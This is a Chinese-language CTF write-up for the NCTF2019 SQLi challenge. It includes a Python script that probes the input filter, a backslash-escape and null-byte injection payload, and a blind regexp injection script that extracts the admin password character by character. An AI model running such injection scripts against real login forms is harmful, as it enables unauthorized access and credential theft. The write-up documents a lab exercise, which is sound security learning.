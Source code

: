 # [NCTF2019]SQLi
![](<./img/Pasted image 20230120113124.png>)

![](<./img/Pasted image 20230120113103.png>)

![](<./img/Pasted image 20230120113230.png>)

```
username=admin
passwd=1' or 1=1 or '1
```

![](<./img/Pasted image 20230120150739.png>)

```python
import requests
import time

url = 'http://xxx.node4.buuoj.cn:81/index.php'
data = {'username' : '1', 'passwd': ''}

for i in range(128):
    data['passwd'] = chr(i)
    if requests.post(url, data=data).text.__contains__('hacker'):
        print('\'{}\''.format(chr(i)))
    time.sleep(0.1)
```

```
' '
'#'
'''
','
'-'
'.'
'<'
'='
'>'
```

由于单引号被过滤，尝试使用`\`对原有的单引号进行转义

由于空格也被过滤，为了维持语法的正确，使用`/**/`作为间隔

`passwd`右边的单引号通过`\0`截断

最终查询像这样

```sql
select * from users where username='\' and passwd='/**/or/**/passwd/**/regexp/**/"<reg>";
```

(好像`or`也被过滤了)

```python
import requests
import time

url = "http://18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn:81/index.php"
fmt = '/**/||/**/passwd/**/not/**/regexp/**/"{}";\000'

data = {'username': '\\', 'passwd': fmt.format('^a')}
print(requests.post(url, data=data).text)
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /welcome.php was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn Port 81</address>
</body></html>
```

如果查询有结果就返回404，没有返回200

```python
import requests
import time
import sys
import string

url = "http://xxx.node4.buuoj.cn:81/index.php"

pass_fmt = '/**/||/**/passwd/**/regexp/**/"^{}";\000'
data = {'username': '\\', 'passwd': ''}
false_func = lambda response : response.status_code == 200

word_list = string.ascii_uppercase + string.ascii_lowercase + string.digits + '_'

res = ''

while True:
    for i in word_list:
        data['passwd'] = pass_fmt.format(res + i)

        time.sleep(0.1)
        response = requests.post(url, data)
        if not false_func(response):
            print(i, end='')
            sys.stdout.flush()
            res += i
            break
```

```
YOU_WILL_NEVER_KNOW7788990
```

转为小写之后拿去登录就拿到了`flag`

![](<./img/Pasted image 20230120162247.png>)

